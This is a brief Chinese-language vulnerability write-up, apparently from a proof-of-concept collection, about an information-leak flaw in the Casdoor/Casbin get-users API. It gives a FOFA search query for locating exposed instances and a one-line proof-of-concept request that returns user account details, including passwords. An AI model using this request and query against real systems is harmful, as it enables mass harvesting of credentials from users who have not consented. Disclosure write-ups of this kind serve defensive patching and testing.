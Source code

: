 # Casbin get-users 账号密码泄漏漏洞

## 漏洞描述

Casbin get-users api接口存在账号密码泄漏漏洞，攻击者通过漏洞可以获取用户敏感信息

## 漏洞影响

```
Casbin
```

## FOFA

```
title="Casdoor"
```

## 漏洞复现

登录页面

![image-20220524143206718](./images/202205241432780.png)

验证POC

```
/api/get-users?p=123&pageSize=123
```

![image-20220524143215583](./images/202205241432624.png)